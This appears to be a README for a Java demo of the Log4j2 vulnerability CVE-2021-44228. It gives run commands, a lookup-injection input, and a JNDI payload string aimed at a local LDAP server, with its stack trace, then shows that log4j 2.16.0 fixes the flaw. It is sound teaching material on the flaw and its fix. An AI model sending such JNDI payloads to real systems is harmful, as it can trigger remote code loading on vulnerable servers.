 # log4j-vul
This project is just to show Apache Log4j2 Vulnerability - aka CVE-2021-44228

Java:
========
java version "1.8.0_121"

Compile:
========
(from src folder)
javac -classpath .;..\lib\log4j-api-2.1.jar;..\lib\log4j-core-2.1.jar com\example\Log4jVul.java

Execute\Run:
=============
(from src folder)
java -classpath .;..\lib\log4j-api-2.1.jar;..\lib\log4j-core-2.1.jar com.example.Log4jVul Bhanu

Output:
ERROR StatusLogger No log4j2 configuration file found. Using default configuration: logging only errors to the console.
11:29:08.081 [main] ERROR com.example.Log4jVul - ** Username: Bhanu**

Vulnerability show:
===================
(from src folder)
java -classpath .;..\lib\log4j-api-2.1.jar;..\lib\log4j-core-2.1.jar com.example.Log4jVul ${java:version}

Output:
ERROR StatusLogger No log4j2 configuration file found. Using default configuration: logging only errors to the console.
11:34:04.110 [main] ERROR com.example.Log4jVul - ** Username: Java version 1.8.0_121**

NOTICE: output is "Java version 1.8.0_121" ********************

Vulnerability show (JNDI):
=========================
(from src folder)
java -classpath .;..\lib\log4j-api-2.1.jar;..\lib\log4j-core-2.1.jar  -Dlog4j.configurationFile=log4j2.properties com.example.Log4jVul ${jndi:ldap://localhost:8181/Exploit}

Note: Please read about Java Unmarshaller Security - Turning your data into code execution. https://github.com/mbechler/marshalsec

Output:
2021-12-22 10:04:25,803 WARN Error looking up JNDI resource [ldap://localhost:8181/Exploit]. javax.naming.ServiceUnavailableException: localhost:8181; socket closed
        at com.sun.jndi.ldap.Connection.readReply(Connection.java:454)
        at com.sun.jndi.ldap.LdapClient.ldapBind(LdapClient.java:365)
        at com.sun.jndi.ldap.LdapClient.authenticate(LdapClient.java:192)
        at com.sun.jndi.ldap.LdapCtx.connect(LdapCtx.java:2788)
        at com.sun.jndi.ldap.LdapCtx.<init>(LdapCtx.java:319)
        at com.sun.jndi.url.ldap.ldapURLContextFactory.getUsingURLIgnoreRootDN(ldapURLContextFactory.java:60)
        at com.sun.jndi.url.ldap.ldapURLContext.getRootURLContext(ldapURLContext.java:61)
        at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:202)
        at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
        at javax.naming.InitialContext.lookup(InitialContext.java:417)
        at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:128)
        at org.apache.logging.log4j.core.lookup.JndiLookup.lookup(JndiLookup.java:55)
        at org.apache.logging.log4j.core.lookup.Interpolator.lookup(Interpolator.java:153)
        at org.apache.logging.log4j.core.lookup.StrSubstitutor.resolveVariable(StrSubstitutor.java:1041)
        at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:957)
        at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:847)
        at org.apache.logging.log4j.core.lookup.StrSubstitutor.replace(StrSubstitutor.java:402)
        at org.apache.logging.log4j.core.pattern.MessagePatternConverter.format(MessagePatternConverter.java:71)
        at org.apache.logging.log4j.core.pattern.PatternFormatter.format(PatternFormatter.java:36)
        at org.apache.logging.log4j.core.layout.PatternLayout.toSerializable(PatternLayout.java:197)
        at org.apache.logging.log4j.core.layout.PatternLayout.toSerializable(PatternLayout.java:55)
        at org.apache.logging.log4j.core.layout.AbstractStringLayout.toByteArray(AbstractStringLayout.java:67)
        at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.append(AbstractOutputStreamAppender.java:108)
        at org.apache.logging.log4j.core.config.AppenderControl.callAppender(AppenderControl.java:99)
        at org.apache.logging.log4j.core.config.LoggerConfig.callAppenders(LoggerConfig.java:430)
        at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:409)
        at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:367)
        at org.apache.logging.log4j.core.Logger.logMessage(Logger.java:112)
        at org.apache.logging.log4j.spi.AbstractLogger.logMessage(AbstractLogger.java:727)
        at org.apache.logging.log4j.spi.AbstractLogger.logIfEnabled(AbstractLogger.java:716)
        at org.apache.logging.log4j.spi.AbstractLogger.error(AbstractLogger.java:344)
        at com.example.Log4jVul.main(Log4jVul.java:16)

10:04:25.779 [main] ERROR com.example.Log4jVul - ** Username: ${jndi:ldap://localhost:8181/Exploit}**

Fixing with version Log4j 2.16.0
================================
Compile:
========
(from src folder)
javac -classpath .;..\lib\log4j-api-2.16.0.jar;..\lib\log4j-core-2.16.0.jar com\example\Log4jVul.java

Execute\Run:
============
(from src folder)
java -classpath .;..\lib\log4j-api-2.16.0.jar;..\lib\log4j-core-2.16.0.jar com.example.Log4jVul ${java:version}

Output:
11:42:48.815 [main] ERROR com.example.Log4jVul - ** Username: ${java:version}**


